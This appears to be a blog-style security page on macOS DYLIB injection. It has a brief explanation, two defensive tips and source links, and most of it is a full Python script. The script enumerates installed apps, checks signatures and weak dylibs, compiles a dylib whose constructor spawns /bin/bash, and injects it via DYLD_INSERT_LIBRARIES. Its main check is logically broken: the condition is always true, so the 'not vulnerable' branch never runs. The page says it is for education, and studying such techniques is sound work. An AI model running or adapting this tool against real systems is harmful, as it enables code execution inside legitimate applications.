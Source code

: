 ```yaml
---
layout: attack
title: Detecting and Exploiting App Vulnerabilities with DYLIB Injection
---
```


<img height="150" align="left" src="/images/dylib_injection.jpg" > A short intro into DYLIB injection, a technique that attackers can use to compromise MacOS applications. The presented script tries in an automated way to find vulnerable apps and exploit over dylib injection if possible. The script itself is not entirely hardened against errors and very likely will be busted by EDRs solutions based on the nature of this script. Also this is meant to be used for educational purposes only.


## What is DYLIB Injection?

DYLIB (Dynamic Linked Library) injection is a method where malicious code is loaded into a legitimate application at runtime. This allows attackers to manipulate the app's behavior, steal data, or even gain complete control of the system.

## Protecting Yourself from DYLIB Injection

While the script demonstrates how attackers might exploit vulnerabilities, it also highlights areas for defense:

* __Application Sandboxing__: Many applications on macOS run in sandboxes, limiting their access to system resources and making them less susceptible to injection attacks.
* __Code Signing__: Apple's code-signing process helps ensure application integrity. Be wary of applications that fail signature verification.


## Some sources:
* [HackTricks MacOS Lib Injection](https://book.hacktricks.xyz/macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-library-injection)
* [HackTricks - Macos Dyld Hijacking and Insert Libs](https://book.hacktricks.xyz/macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-library-injection/macos-dyld-hijacking-and-dyld_insert_libraries)
* [Malware Unictorn - Dylib Injection](https://malwareunicorn.org/workshops/macos_dylib_injection.html#0)

## The code
```python
import os
import subprocess

def enumerate_installed_apps():
    applications = [f"[{idx + 1}] {app}" for idx, app in enumerate(os.listdir('/Applications')) if app.endswith('.app')]
    print("\n".join(applications))
    return [app.split("] ")[1] for app in applications]

def verify_app_integrity(app):
    """
    Checks an application for integrity by verifying its signature.
    Returns True if the application might have been modified or if an error occurs.
    """
    app_path = f"/Applications/{app}/Contents/MacOS/{app[:-4]}"
    try:
        result = subprocess.run(['codesign', '-vvv', '--deep', '--strict', app_path], capture_output=True, text=True)
        if 'valid on disk' in result.stdout and 'satisfies its Designated Requirement' in result.stdout:
            print(f"> {app} appears to be intact and not modified.")
        else:
            print(f"> WARNING: {app} may have been modified.")
            print(result.stdout)
            return True
    except Exception as e:
        print(f"> ERROR checking {app}: {e}")
        return True  

    return False

def detect_weak_dylibs(app):
    """
    Checks if an application has loaded weak dynamic libraries (dylibs).
    Returns True if weak dylibs were found.
    """
    app_path = f"/Applications/{app}/Contents/MacOS/{app[:-4]}"
    try:
        result = subprocess.run(['otool', '-l', app_path], capture_output=True, text=True)
        if 'LC_LOAD_WEAK_DYLIB' in result.stdout:
            print(f"> {app} has weak dylibs loaded.")
            return True
        else:
            print(f"> {app} does not have weak dylibs loaded.")
    except Exception as e:
        print(f"> ERROR checking weak dylibs for {app}: {e}")
        return True

    return False

def build_dylib():
    """
    Compiles a dynamic library (dylib) that can later be injected into an application.
    
    Origin/Sources:
    https://book.hacktricks.xyz/macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-library-injection
    https://book.hacktricks.xyz/macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-library-injection/macos-dyld-hijacking-and-dyld_insert_libraries
    https://malwareunicorn.org/workshops/macos_dylib_injection.html#0
    """
    c_code = """
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
__attribute__((constructor))

void myconstructor(int argc, const char **argv)
{
    syslog(LOG_ERR, "[+] dylib injected in %s\\n", argv[0]);
    printf("[+] dylib injected in %s\\n", argv[0]);
    execv("/bin/bash", 0);
}
"""
    with open("inject.c", "w") as file:
        file.write(c_code)
    subprocess.run(['gcc', '-dynamiclib', '-o', 'inject.dylib', 'inject.c'], check=True)
    print("> Dylib compiled successfully.")

def perform_dylib_injection(app):
    """
    Attempts to inject a previously compiled dynamic library into an application.
    """
    app_path = f"/Applications/{app}/Contents/MacOS/{app[:-4]}"
    try:
        os.environ['DYLD_INSERT_LIBRARIES'] = 'inject.dylib'
        subprocess.run([app_path], check=True)
    except Exception as e:
        print(f"> ERROR injecting {app}: {e}")

def main():
    applications = enumerate_installed_apps()
    app_number = int(input("Enter the number of the software you want to attempt the injection on: ")) - 1
    selected_app = applications[app_number]
    
    print(f"> Checking for vulnerabilities in {selected_app}...")
    if verify_app_integrity(selected_app) or not verify_app_integrity(selected_app):
        if detect_weak_dylibs(selected_app):
            build_dylib()
            perform_dylib_injection(selected_app)
        else:
            print(f"> {selected_app} does not have weak dylibs loaded, but attempting injection anyway.")
            build_dylib()
            perform_dylib_injection(selected_app)
    else:
        print(f"> {selected_app} is not vulnerable to dylib injection.")

if __name__ == "__main__":
    main()
```
